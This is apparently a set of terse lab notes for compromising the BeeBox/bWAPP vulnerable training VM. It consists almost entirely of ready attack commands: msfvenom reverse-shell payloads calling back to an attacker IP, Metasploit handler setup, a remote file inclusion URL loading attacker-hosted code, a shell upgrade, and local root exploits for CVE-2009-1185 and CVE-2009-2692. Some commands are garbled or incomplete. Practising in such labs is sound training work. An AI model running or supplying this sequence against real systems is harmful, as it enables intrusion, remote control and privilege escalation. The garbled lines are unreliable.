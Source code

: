 *BeeBox*
"/multi/handler" can be used for txt file reverse shell

msfvenom -p php/meterpreter_reverse_tcp LHOST=192.168.112.4 LPORT=4446 -f raw -o /var/www/html/evil.txt
msfconsole 
use exploit/multi/handler
set LPORT 4446
set LHOST 192.168.112.4
set PAYLOAD php/meterpreter_reverse_tcp
run

***Remote & Local File Inclusion (RFI/LFI)***

http://192.168.1.135/bWAPP/rlfi.php?language=lang_en.php&action=go
?language=http://192.168.112.4/evil.txt

python -c 'import pty; pty.spawn("/bin/sh")'
id
whoami

On Kali:
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.112.4 LPORT=5000 -f elf -o /var/www/html/run
service apache2 
msfconsole
use exploit/multi/handler
set LHOST 192.168.112.4
set LPORT 5000
set PAYLOAD linux/x86/meterpreter/reverse_tcp

On BeeBox:
wget http://192.168.112.4/run -o /tmp/cd un
gcc cve-2009-1185.c -o /tmp/privescalation
chmod +x /tmp/privescalation
cd /tmp
ps aux | grep udev
./privescalation (PID discovered with grep minus 1 - e.g. 2864 - 1 = 2863)


**Easy Way**
tar -xvf cve-2009-2692.tar
cd cve-2009-2692
sh cve-2009-2692.sh
